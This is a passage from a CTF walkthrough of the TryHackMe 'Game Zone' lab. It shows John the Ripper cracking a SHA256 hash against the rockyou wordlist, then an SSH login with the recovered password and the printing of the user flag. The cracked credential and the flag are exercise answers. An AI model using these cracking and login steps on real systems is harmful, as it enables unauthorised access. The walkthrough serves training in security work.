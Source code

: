 - **hash.txt** - contains a list of your hashes (in your case its just 1 hash)
- **--wordlist** - is the wordlist you're using to find the dehashed value
- **--format** - is the hashing algorithm used. In our case its hashed using SHA256.

What is the de-hashed password?

```
ali@kali:~/CTFs/tryhackme/Game Zone$ john agent47.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2020-11-18 23:25) 1.136g/s 3351Kp/s 3351Kc/s 3351KC/s vimivi..vainlove
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

`videogamer124`

Now you have a password and username. Try SSH'ing onto the machine. What is the user flag?

```
bibo318@parrot:~/CTFs/tryhackme/Game Zone$ ssh agent47@10.10.163.58
The authenticity of host '10.10.163.58 (10.10.163.58)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.163.58' (ECDSA) to the list of known hosts.
agent47@10.10.163.58's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ ls -la
total 28
drwxr-xr-x 3 agent47 agent47 4096 Aug 16  2019 .
drwxr-xr-x 3 root    root    4096 Aug 14  2019 ..
lrwxrwxrwx 1 root    root       9 Aug 16  2019 .bash_history -> /dev/null
-rw-r--r-- 1 agent47 agent47  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 agent47 agent47 3771 Aug 14  2019 .bashrc
drwx------ 2 agent47 agent47 4096 Aug 16  2019 .cache
-rw-r--r-- 1 agent47 agent47  655 Aug 14  2019 .profile
-rw-rw-r-- 1 agent47 agent47   33 Aug 16  2019 user.txt
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```
